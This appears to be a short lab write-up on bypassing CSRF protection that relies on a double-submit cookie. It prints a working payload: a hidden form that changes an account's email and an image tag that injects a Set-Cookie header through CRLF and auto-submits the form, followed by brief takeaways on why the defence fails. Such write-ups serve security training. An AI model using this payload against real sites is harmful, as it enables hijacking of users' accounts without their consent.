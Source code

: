 # CSRF Vulnerability - Double Submit

## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="something">
</form>
<img src="X.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=something" onerror="document.forms[0].submit()">
```

## Takeaway

- some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.
- When the subsequent request is validated, the application simply ***verifies*** that the token submitted in the request parameter ***matches the value submitted in the cookie. ***

- Make sure the body token is the same as the header token! 